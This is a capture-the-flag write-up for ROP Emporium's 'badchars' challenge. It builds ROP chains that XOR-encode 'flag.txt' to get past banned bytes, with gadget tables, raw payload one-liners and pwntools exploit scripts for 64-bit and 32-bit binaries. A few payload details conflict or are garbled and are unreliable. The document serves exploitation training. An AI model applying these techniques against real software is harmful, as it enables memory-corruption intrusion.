




# BadChars

[Split]: https://ropemporium.com/challenge/write4.html
- We have pretty the same structure as write4 challenge, but this time some characters are bannedfrom the input, so we can pass neither strings nor addresses which contains those bad chars.
- bad chars are: `'x', 'g', 'a', '.'`, so flag.txt cannot be used
- In the program there is a `xor gadget`, we can take advantage of it to write "flag.txt" in memory by using two strings, without badchars, which xored toghether gives the string we want

## 64 bit

We need to build our **ROP chain**, lets find all stuff we need.


As in `write4` challenge we have the `print_file()` function, so we need a place to put flag.txt in memory and a couple of gadget to do it



Some addresses are ther same of the previous challenge, **write4**:
- The  `.data` address is  `0x00601028`. but pay attentintion to the fact that putting there out `flag.txt` string will cause the 'x' character to end up in an address with a badchar `'.'=2e` in it -> `0x0060102e`, so its better use another address in `.data` section, which may be  `0x00601030`
- the `print_file()` address is: `0x00400510`.

Now come the tricky part, there as some `badchars` ; running the program will tell us which are:
> badchars are: 'x', 'g', 'a', '.'

so  we cannot use `'x'=\x78, 'g'=\x67, 'a'=\x61, '.'=\x2e` in our payload.

Checking our **write4** payload we notice that `flag.txt` present badchars. 
In the gadget we'll find there is a **xor gadget**, so we can inject our string `flag.txt` by xoring two strings `str1` and `str2` without badchars
Lets write a python function to find those strings. we can xor "flag.txt" with '2' and get a string free of bad chars
so now we have:

`flag.txt =  XOR \x00\x00QWL\x00H\x00` -> which hex is:
`666c61672e747874` = `646E63652C767A76` XOR `0202020202020202`

We will look for gadgets without badchars; **ropper** will do the job for us:

```bash
ropper --file "badchars" -b 7867612e
```

it will output 95 gadgets without badchars, from which we'll find what we need:

- `0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret; `
- `0x0000000000400634: mov qword ptr [r13], r12; ret; `
- `0x0000000000400628: xor byte ptr [r15], r14b; ret;` -> it xor the content of the location contained in r15 with the first 8 bytes of r14 (indeed `r14b`), so we will need this gadget 8 times, to xor all byte of `str1` with the charactrer `2`
- `0x00000000004006a3: pop rdi; ret;`
- `0x00000000004006a2: pop r15; ret;` -> to loop on the xor operation, will pop `.data_address + 1` at every iteration

Let's check them:



Let's then put our shits together remembering little endianess:

| ROP                              |                                    |
| -------------------------------- | ---------------------------------- |
| thrash padding                   | "\x55" * 40                        |
| `pop r12; pop r13; pop r14; pop r15; ret; `|"\x9c\x06\x40\x00\x00\x00\x00\x00"|
| str1                        | "\x64\x6E\x63\x65\x2C\x76\x7A\x76"|
| `.data`                          | "\x28\x10\x60\x00\x00\x00\x00\x00" |
| str2 | "\x02\x02\x02\x02\x02\x02\x02\x02" |
| `.data`                          |"\x30\x10\x60\x00\x00\x00\x00\x00"|
| `mov qword ptr [r13], r12; ret;` | "\x34\x06\x40\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data`                          | "\x31\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data+1`                          | "\x32\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data+2`                          | "\x33\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data+3`                          | "\x34\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data+4`                          | "\x35\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data+5`                          | "\x36\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data+6`                          | "\x37\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop rdi; ret;`                  | "\xa3\x06\x40\x00\x00\x00\x00\x00" |
| `.data`                         | "\x30\x10\x60\x00\x00\x00\x00\x00" |
| `print_file`                     | "\x10\x05\x40\x00\x00\x00\x00\x00" |

```bash
python -c 'print "\x55"*40 + "\x9c\x06\x40\x00\x00\x00\x00\x00" + "\x64\x6E\x63\x65\x2C\x76\x7A\x76" + "\x30\x10\x60\x00\x00\x00\x00\x00" + "\x02\x02\x02\x02\x02\x02\x02\x02" + "\x30\x10\x60\x00\x00\x00\x00\x00" + "\x34\x06\x40\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x31\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x32\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x33\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x34\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x35\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x36\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x37\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa3\x06\x40\x00\x00\x00\x00\x00" + "\x30\x10\x60\x00\x00\x00\x00\x00" + "\x10\x05\x40\x00\x00\x00\x00\x00"' | ./badchars
```

### pwntools

```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF("badchars")
io = process(elf.path)

str1 = p64(0x767a762c65636e64) # we should provide it in the reverse endian order
str2 = p64(2)

data_address = p64(0x00601030)
print_file_address = p64(0x00400510)

pop_r12_r13_r14_r15 = p64(0x0040069c)
mov_R13_r12 = p64(0x00400634)
xor_R15_r14b = p64(0x00400628)
pop_rdi = p64(0x004006a3)
pop_r15 = p64(0x004006a2)

payload = b'A'*40
payload += pop_r12_r13_r14_r15
payload += str1
payload += data_address 
payload += str2
payload += data_address 
payload += mov_R13_r12
payload += xor_R15_r14b

for i in range(1,8):
    payload += pop_r15
    payload += p64(0x00601030+i)
    payload += xor_R15_r14b

payload += pop_rdi
payload += data_address
payload += print_file_address

io.sendline(payload)
print(io.recvall())
```

## 32 bit

- print_file() address is `0x080483d0`
- .data address is : `0x0804a018`

-str1: `646E63652C767A76`
-str2: `02`

Badchars are: `'x'=\x78, 'g'=\x67, 'a'=\x61, '.'=\x2e`, so we use **ropper** to find all gadgets we need:
```bash
ropper --file "badchars" -b 7867612e
```
- `0x080485bb: pop ebp; ret;` -> per ciclare sullo xor
- `0x080485ba: pop edi; pop ebp; ret;`
- `0x0804854f: mov dword ptr [edi], esi; ret;`
- `0x08048547: xor byte ptr [ebp], bl; ret;` -> `bl` è il primo byte del registro ebx (cioè dove metteremo str2)

considerando la little endianess :

| ROP                                |                    |
| ---------------------------------- | ------------------ |
| thrash padding                     | "\x55" * 44        |
| `pop ebx; pop esi; pop edi; pop ebp; ret;`| "\xb8\x85\x04\x08" |
| str2| "\x02\x02\x02\x02"	|
| str1 (first 4 bytes)           | "\x64\x6E\x63\x65" |
| `.data`                            | "\x18\xa0\x04\x08" |
| `.data`	| "\x18\xa0\x04\x08"	|
| `mov dword ptr [edi], esi; ret;` | "\x4f\x85\x04\x08" |
| `pop ebx; pop esi; pop edi; pop ebp; ret;`| "\xb8\x85\x04\x08" |
|	str2| "\x02\x02\x02\x02"		|
| str1 (last 4 bytes)| "\x2C\x76\x7A\x76" |
| `.data + 4byte`| "\x1c\xa0\x04\x08" |
|	 `.data`	| "\x18\xa0\x04\x08"	|
| `mov dword ptr [edi], esi; ret;` | "\x4f\x85\x04\x08" |
| `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 1` |"\x19\xa0\x04\x08"|
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 2` |"\x1a\xa0\x04\x08"|
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 3` |"\x1b\xa0\x04\x08"|
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 4` |"\x1c\xa0\x04\x08" |
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 5` |""\x1d\xa0\x04\x08"|
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 6` |"\x1e\xa0\x04\x08" |
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 7` |"\x1f\xa0\x04\x08 "|
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `print_file` |  "\xd0\x83\x04\x08"|
| `fake return address for print_file` | "\x55" * 4         |
| `.data`	| "\x18\xa0\x04\x08"	|

```bash
python -c 'print "\x55"*44 + "\xb8\x85\x04\x08" + "\x02\x02\x02\x02" + "\x64\x6E\x63\x65" + "\x18\xa0\x04\x08" + "\x18\xa0\x04\x08" + "\x4f\x85\x04\x08" + "\xb8\x85\x04\x08" +   "\x02\x02\x02\x02" + "\x2C\x76\x7A\x76" + "\x1c\xa0\x04\x08" + "\x18\xa0\x04\x08" + "\x4f\x85\x04\x08" + "\x47\x85\x04\x08" +
"\xbb\x85\x04\x08" + "\x19\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xbb\x85\x04\x08" + "\x1a\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xbb\x85\x04\x08" + "\x1b\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xbb\x85\x04\x08" + "\x1c\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xbb\x85\x04\x08" + "\x1d\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xbb\x85\x04\x08" + "\x1e\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xbb\x85\x04\x08" + "\x1f\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xd0\x83\x04\x08" + "\x55" * 4 + "\x18\xa0\x04\x08"' | ./badchars32
```

### pwntools

```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF("badchars32")
io = process(elf.path)


data_address = p32(0x0804a018)
print_file_address = p32(0x080483d0)

str1_1 = p32(0x65636e64)
str1_2 = p32(0x767a762c)
str2 = p32(2)

pop_ebx_esi_edi_epb = p32(0x080485b8)
pop_ebp = p32(0x080485bb)
mov_EDI_esi = p32(0x0804854f)
xor_EPB_bl = p32(0x08048547)

payload = b'A'*44

payload += pop_ebx_esi_edi_epb
payload += str2
payload += str1_1
payload += data_address
payload += data_address
payload += mov_EDI_esi

payload += pop_ebx_esi_edi_epb
payload += str2
payload += str1_2
payload += p32(0x0804a018+4) # .data address + 4
payload += data_address
payload += mov_EDI_esi

payload += xor_EPB_bl
for i in range(1,8):
    payload += pop_ebp  
    payload += p32(0x0804a018+i) # .data address + i
    payload += xor_EPB_bl

payload += print_file_address
payload += b'A'*4 # fake print_file() return address
payload += data_address 

io.sendline(payload)
print(io.recvall())
```